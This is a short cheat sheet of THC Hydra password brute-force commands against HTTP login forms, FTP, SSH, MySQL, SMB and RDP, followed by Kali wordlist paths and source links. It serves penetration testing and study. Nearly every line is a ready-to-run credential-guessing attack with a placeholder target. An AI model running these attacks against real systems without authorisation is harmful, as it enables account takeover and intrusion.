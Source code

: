 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://Target_IP

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://IP_Address:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://IP_Address:33389/

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
